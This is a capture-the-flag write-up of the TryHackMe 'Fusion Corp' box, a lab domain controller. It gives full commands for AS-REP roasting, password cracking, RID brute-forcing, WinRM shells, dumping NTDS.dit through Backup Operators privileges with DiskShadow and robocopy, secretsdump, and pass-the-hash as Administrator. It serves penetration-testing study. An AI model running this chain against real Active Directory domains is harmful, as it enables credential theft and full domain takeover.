This box is rated hard difficulty on THM. It involves us discovering an employee spreadsheet in a backup directory on the web server that leads to AS-REP roasting a user account. They have WinRM access which lets us get a shell and after some enumeration, we find another user's password in their description attribute that allows us to pivot. Since that user is in the Backup Operators group, we can abuse their SeBackup and SeRestore privileges to clone the `C:\` drive and download the NTDS.dit file. Once on our local machine, an Impacket script is used to extract the Administrator's NTLM hash to grab a shell.

_Fusion Corp said they got everything patched... did they?_

## Scanning & Enumeration
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns the standard AD things.

```
$ sudo nmap -sCV 10.64.183.145 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-12 17:34 CDT
Nmap scan report for 10.64.183.145
Host is up (0.044s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: eBusiness Bootstrap Template
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-12 22:34:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Fusion-DC.fusion.corp
| Not valid before: 2026-03-11T22:30:34
|_Not valid after:  2026-09-10T22:30:34
|_ssl-date: 2026-03-12T22:35:12+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: FUSION
|   NetBIOS_Domain_Name: FUSION
|   NetBIOS_Computer_Name: FUSION-DC
|   DNS_Domain_Name: fusion.corp
|   DNS_Computer_Name: Fusion-DC.fusion.corp
|   Product_Version: 10.0.17763
|_  System_Time: 2026-03-12T22:34:33+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: FUSION-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-12T22:34:33
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.79 seconds
```

Looks like a Windows machine with Active Directory components installed on it. LDAP is leaking the domain name of `fusion.corp` which I'll add to my `/etc/hosts` file. There are a lot of ports open, so I''ll focus mainly on HTTP, SMB, and Kerberos to gather information such as users and available shares. As there is a web server, I fire up Ffuf to search for subdirectories and Vhosts in the background before heading to the site. 

```
$ ffuf -u http://fusion.corp/FUZZ -w /opt/SecLists/directory-list-2.3-medium.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://fusion.corp/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

img                     [Status: 301, Size: 146, Words: 9, Lines: 2, Duration: 160ms]
css                     [Status: 301, Size: 146, Words: 9, Lines: 2, Duration: 71ms]
lib                     [Status: 301, Size: 146, Words: 9, Lines: 2, Duration: 52ms]
js                      [Status: 301, Size: 145, Words: 9, Lines: 2, Duration: 65ms]
backup                  [Status: 301, Size: 149, Words: 9, Lines: 2, Duration: 177ms]
contactform             [Status: 301, Size: 154, Words: 9, Lines: 2, Duration: 155ms]

:: Progress: [220560/220560] :: Job [1/1] :: 388 req/sec :: Duration: [0:07:25] :: Errors: 0 ::
```

### Finding Domain Usernames
Checking out the landing page shows a static site to host the organization's services on. Other than the section about team members that we can use to create a user wordlist, there's not much on this page that helps us.


My scans picked up a few normal directories that don't contain any crazy files other than basic site functionality (e.g. main.js and style.css), however one stood out. Under the `/backups` dir, we're able to grab an `employees.ods` file (spreadsheet) that lists emplyees along with their corresponding usernames on the domain.



I open this file with [Gnumeric](https://gnome.pages.gitlab.gnome.org/gnumeric-web/) on my Kali machine. You can install it by running `sudo apt install gnumeric`, make sure to update your package manager beforehand if you run into any errors.



### Password Spraying
After adding those to a wordlist, I test if any of these accounts have their username reused as their password.

```
$ nxc smb fusion.corp -u users.txt -p users.txt --continue-on-success --no-brute
```



This doesn't work, but we still have a list of useful usernames on the domain which will help us later. Checking if RPC and LDAP allow for anonymous login/binds shows that this really was the only way to enumerate these names.

```
$ rpcclient fusion.corp -U ''

$ ldapsearch -H ldap://fusion-dc.fusion.corp -x -b "DC=fusion,DC=corp"
```



## AS-REP Roasting
Due to us still not having any valid credentials or ways to authenticate anywhere, I'll check to see if any of these accounts are AS-REP roastable which could give us a user's password if cracked. 

If you're unfamiliar with this technique - Attackers can perform AS-REP roasting when an Active Directory account has "Do not require Kerberos pre-authentication" enabled. By sending an authentication request to the Kerberos Key Distribution Center (KDC) using only a username, the server returns an AS-REP response encrypted with the user's password-derived key. We can then capture this response and offline crack the hash to recover the account's plaintext password.

### Finding Valid Users
To do this, I use a tool called [Kerbrute](https://github.com/ropnop/kerbrute) to test my wordlist for valid accounts.

```
$ ./kerbrute userenum ../users.txt --dc fusion-dc.fusion.corp -d fusion.corp
```



### Getting KRB5ASREP Hash
This returns just one valid user named `lparker`. The chance is slim, but next I'll use Impacket's [GetNPUsers.py script](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) to test if his account has Kerberos pre-authentication disabled, therefore granting us a krb5asrep hash to crack.

```
$ impacket-GetNPUsers -dc-ip 10.64.183.145 -usersfile ../users.txt -no-pass fusion.corp/
```



### Cracking Hash
That actually works and we're rewarded with Larry Parker's hash, who's also the only real user on the box. Now let's send that over to Hashcat or JohnTheRipper to get the plaintext variant so that we can authenticate elsewhere.

```
$ echo "[KRB5ASREP_HASH_VALUE]" > hash

$ john hash --wordlist=/opt/SecLists/rockyou.txt
```



Checking to see if this works shows that he has read permissions on a few standard shares, but nothing that will help us over SMB.

```
$ nxc smb fusion.corp -u 'lparker' -p '[REDACTED]' --shares
```



In Microsoft Windows environments, each security principal (users, groups, computers) is assigned a Relative Identifier (RID) as the last portion of its SID. Because RIDs are often allocated sequentially, attackers can brute-force RID values over protocols like SMB or RPC to query which SIDs exist and resolve them into account names, effectively enumerating valid usernames on a given domain.

Just to be thorough, I perform an RID brute-force over SMB to double check all usernames on the domain. This reveals another user besides the Administrator named Jmurphy, who we'll most likely want to pivot to as there are three user flags. I append their username to my users list as well.

```
$ nxc smb fusion.corp -u 'lparker' -p '[REDACTED]' --rid-brute

SMB         10.64.183.145   445    FUSION-DC        [*] Windows 10 / Server 2019 Build 17763 x64 (name:FUSION-DC) (domain:fusion.corp) (signing:True) (SMBv1:False)
SMB         10.64.183.145   445    FUSION-DC        [+] fusion.corp\lparker:[REDACTED]
SMB         10.64.183.145   445    FUSION-DC        498: FUSION\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        500: FUSION\Administrator (SidTypeUser)
SMB         10.64.183.145   445    FUSION-DC        501: FUSION\Guest (SidTypeUser)
SMB         10.64.183.145   445    FUSION-DC        502: FUSION\krbtgt (SidTypeUser)
SMB         10.64.183.145   445    FUSION-DC        512: FUSION\Domain Admins (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        513: FUSION\Domain Users (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        514: FUSION\Domain Guests (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        515: FUSION\Domain Computers (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        516: FUSION\Domain Controllers (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        517: FUSION\Cert Publishers (SidTypeAlias)
SMB         10.64.183.145   445    FUSION-DC        518: FUSION\Schema Admins (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        519: FUSION\Enterprise Admins (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        520: FUSION\Group Policy Creator Owners (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        521: FUSION\Read-only Domain Controllers (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        522: FUSION\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        525: FUSION\Protected Users (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        526: FUSION\Key Admins (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        527: FUSION\Enterprise Key Admins (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        553: FUSION\RAS and IAS Servers (SidTypeAlias)
SMB         10.64.183.145   445    FUSION-DC        571: FUSION\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.64.183.145   445    FUSION-DC        572: FUSION\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.64.183.145   445    FUSION-DC        1000: FUSION\FUSION-DC$ (SidTypeUser)
SMB         10.64.183.145   445    FUSION-DC        1101: FUSION\DnsAdmins (SidTypeAlias)
SMB         10.64.183.145   445    FUSION-DC        1102: FUSION\DnsUpdateProxy (SidTypeGroup)
SMB         10.64.183.145   445    FUSION-DC        1103: FUSION\lparker (SidTypeUser)
SMB         10.64.183.145   445    FUSION-DC        1104: FUSION\jmurphy (SidTypeUser)
```

## Initial Foothold
Since Nmap discovered that port 5985 was open, I check if Larry is apart of the Remote Management group whom are allowed to WinRM onto the box to grab a shell. The fact that Netexec responds with a **"Pwn3d!"** message next to the credentials confirms that he has the permissions to do so.

```
$ nxc winrm fusion.corp -u 'lparker' -p '[REDACTED]'
```



We can use a tool like Evil-WinRM to grab a shell on the box, as well as retrieve the first flag under his Desktop folder.

```
$ evil-winrm -i fusion.corp -u lparker -p '[REDACTED]'
```



From here, I start internal enumeration to search for any ways to escalate privileges and pivot to either Administrator or Jmurphy. We don't have access to either of their home directories, so I'll focus on strictly permissions.

## Privilege Escalation
Light enumeration of the filesystem shows a non-standard directory on the `C:\` drive named stuff, however it's empty. I'm also unable to locate any scripts, PowerShell history files, or hardcoded credentials in the webroot, so I start up BloodHound to map the domain along with any permissions we have access to.

```
$ bloodhound-python -u lparker -p '[REDACTED]' -dc fusion-dc.fusion.corp -d fusion.corp -ns 10.64.190.161 -c all

$ sudo bloodhound
```

### Creds in Description Attribute
It seems like Larry Parker has no outbound object control and is not apart of any groups with interesting permissions. Since we won't be able to do anything as Larry, I start enumeration on other domain users. This led me to finding a password for Jmurphy in the description attribute on his account.



Testing this for valid authentication reveals that it's still up to date and we can swap over to getting a shell as them via Evil-WinRM once again.

```
$ nxc winrm fusion.corp -u 'jmurphy' -p '[REDACTED]'
WINRM       10.64.190.161   5985   FUSION-DC        [*] Windows 10 / Server 2019 Build 17763 (name:FUSION-DC) (domain:fusion.corp)
WINRM       10.64.190.161   5985   FUSION-DC        [+] fusion.corp\jmurphy:[REDACTED] (Pwn3d!)

$ evil-winrm -i fusion.corp -u jmurphy -p '[REDACTED]'
```



At this point, we can grab the second flag under his Desktop folder and start our endeavor towards Administrator.

### Abusing Backup Operator Privs
Checking out his account shows that they are in the Backup Operators group. That means all users within it should have access to the `SeBackup` and `SeRestore` privileges, which can be utilized to clone the filesystem and extract hashes from the `NTDS.dit` file.



We could also discover this from the CLI by listing groups and privileges with `whoami /all`.



There's a pretty common way to dump the AD database by cloning the NTDS.dit file using the DiskShadow executable. [This article](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960) is a great resource that goes in-depth on a few ways to exploit this privilege.

Just to explain what we're doing here - Since our account has access to backup and restore certain files with elevated privileges, we can effectively make a clone of the Active Directory database files (NTDS.dit) which contain hashed passwords of the user accounts. Also DiskShadow.exe supports the use of scripts through the `/s` option, so we can write a quick one to clone the `C:\` drive to another location that's exposed to the network.

First I create a script on my local machine that will perform the cloning process:

```
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% Z:
end backup
```

Make sure you use unix2dos in order for this file to be compatible with Windows. Then, I upload it to a Temp directory via Evil-WinRM and run DiskShadow while specifying the `.dsh` file to be executed.

```
$ diskshadow /s backup_script.dsh
```



Once that script is officially done, we can utilize another executable our account has access to, which is robocopy. This will allow us to copy files from the newly-created `Z:\` drive to the Temp directory in order to download certain files. We want the `NTDS.dit` file which contains users hashes on the domain, including Administrator. 

```
$ robocopy /b Z:\Windows\ntds . ntds.dit
```



In order for us to decrypt `NTDS.dit`, we'll need the boot key from the `SYSTEM` hive so we can actually extract these hashes. Luckily we can just create a backup of it wherever we please. Lastly, I use Evil-WinRM's download function to transfer these files to my attack box.

```
$ reg save hklm\system C:\Temp\system.bak

$ download system.bak
$ download ntds.dit
```

Once those two files are on our local machine, we can use Impacket's [secretsdump.py script](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) to retrieve the administrator hash.

```
$ impacket-secretsdump -system system.bak -ntds ntds.dit LOCAL
```



Finally, we can attempt to crack this NTLM hash or peform a Pass-The-Hash attack over WinRM to grab a shell as Administrator. Snagging the root flag under their Desktop folder will complete this box.

```
$ evil-winrm -i fusion-dc.fusion.corp -u administrator -H '[ADMIN_NTLM_HASH]'
```



That's all y'all, this box wasn't too difficult if you know what to look for. AS-REP roasting remains ever useful in grabbing valid domain credentials and BloodHound is a powerful tool for mapping AD compromise as it's really about finding where trust is established. I hope this was helpful to anyone following along or stuck and happy hacking!
